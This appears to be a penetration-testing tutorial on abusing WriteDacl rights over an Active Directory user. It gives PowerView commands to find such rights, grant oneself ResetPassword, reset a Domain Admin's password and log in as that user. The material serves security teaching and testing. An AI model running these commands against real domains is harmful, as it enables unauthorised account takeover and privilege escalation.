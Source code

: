 ```yaml
---
title:  WriteDacl On User
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# WriteDacl

***WriteDacl*** : Is a permission that allows you to modify object's ACEs. If you have `WriteDacl` on user object, you can give yourself a right i.e `Resetpassword` that will allow you to reset user's password, thereby escalating your privileges.

# Enumeration

## PowerView

### WriteDacl Enumeration 

Get your current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which you have `WriteDacl` right.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[your_current_user_sid]") -and ($_.activedirectoryrights -like "*WriteDacl*")}

```

*below image shows the current user `usman` has WriteDacl right on user object `ali`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwritedaclenum.png)

### User Enumeration

Execute the below command to get more information about the target user.

Command

```powershell

get-netuser [target_user]

```
*below image shows the target user `ali` is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum2.png)

## BloodHound

You can also get thesame result using bloodhound.

*below image shows the current user `usman` has WriteDacl right on user object `ali` who is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwritedaclb.png)

# Exploitation

## PowerView

### Give Resetpassword Right

Execute the below command to give yourself `Resetpassword` right.

Command

```powershell

add-domainobjectacl -TargetIdentity [target_user] -PrincipalIdentity [Your Current User] -Rights Resetpassword

```
You can verify it using the below command.

Command

```powershell

get-objectacl -resolveguids | ? {$_.securityidentifier -eq "[your_current_user_sid]"}

```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwritedacladd.png)

### Reset Password

With `resetpassword` right given, you can reset his password and login to his account by executing the below command

Command

```powershell

$pass = ConvertTo-SecureString '[Your New Password Here]' -AsPlainText -Force
set-domainuserpassword -identity [target_user] -accountpassword $pass 
runas /user:[domain\user] cmd.exe
```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum3.png)

# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
